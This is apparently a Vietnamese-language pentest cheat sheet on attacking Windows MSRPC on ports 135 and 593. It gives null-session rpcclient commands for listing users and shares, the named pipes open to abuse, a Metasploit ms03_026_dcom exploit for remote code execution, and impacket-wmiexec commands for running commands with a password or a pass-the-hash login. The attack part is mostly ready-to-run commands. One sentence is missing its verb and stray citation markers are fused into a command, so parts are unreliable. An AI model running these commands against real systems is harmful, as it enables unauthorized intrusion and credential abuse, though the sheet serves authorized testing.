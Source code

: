 # RPC (Port 135, 593)

## Connect

### Netcat

Kiểm tra kết nối tới các cổng MSRPC (thường là 135 và 593) bằng Netcat:

```
nc -vn <ip> 135
nc -vn <ip> 593
```

***

## Enumeration

### Sử dụng RPC Client

Sử dụng công cụ RPC client của Windows để liệt kê thông tin MSRPC với tài khoản rỗng:

```
rpcclient -U "" -N <ip>
```

Sau khi kết nối, chạy các lệnh:

```
serverinfo
lsaenumsid
netshareenumall
enumdomusers
querydispinfo
enumdomgroups
enumdomains
```

### Xác định dịch vụ RPC được expose

Sử dụng rpcdump để liệt kê các dịch vụ RPC độc đáo (IFID) và chi tiết liên kết giao tiếp:

```
rpcdump [-p port] <ip>
```

### Kiểm tra bằng Metasploit

Sử dụng các module Metasploit để kiểm tra và tương tác với dịch vụ MSRPC trên cổng 135:

```
msf> use auxiliary/scanner/dcerpc/endpoint_mapper
msf> use auxiliary/scanner/dcerpc/hidden
msf> use auxiliary/scanner/dcerpc/management
msf> use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor
```

***

## Attack Vectors

### Đăng nhập ẩn danh

Kết nối tới MSRPC mà không cần thông tin đăng nhập để truy cập các dịch vụ công khai:

```
rpcclient -U "" -N <ip>
```

Sau khi kết nối, liệt kê thông tin nhạy cảm như người dùng, nhóm, hoặc chia sẻ:

```
enumdomusers
netshareenumall
enumdomains
```

### Khai thác giao diện MSRPC

Tận dụng các giao diện MSRPC để truy cập trái phép, thực thi lệnh từ xa, hoặc chỉnh sửa hệ thống:

```
LSA interface (pipe\lsarpc)
LSA Directory Services (DS) interface (pipe\lsarpc)
LSA SAMR interface (pipe\samr)
Server services and Service control manager interface (pipe\svcctl, pipe\srvsvc)
Remote registry service (pipe\winreg)
Task scheduler (pipe\atsvc)
DCOM interface (pipe\epmapper)
IOXIDResolver interface
```

#### Khai thác MSRPC DCOM cho RCE

Tận dụng MSRPC DCOM để thực thi mã tùy ý trên máy từ xa:

```
# Sử dụng Metasploit để khai thác DCOM
msf> use exploit/windows/dcerpc/ms03_026_dcom
   > set RHOSTS <ip>
   > set RPORT 135
   > run
```

***

## Post-Exploitation

### Thực thi lệnh từ xa&#x20;

Sử dụng wmiexec để  trên hệ thống mục tiêu:

```
impacket-wmiexec domain/user:password@192.168.1.100 "hostname"
```

Ta cũng có thể sử dụng NTLM hash để xác thực:

```
impacket-wmiexec -hashes LMHASH:NTHASH domain/user@target_ip "ipconfig /all"[4][2]
```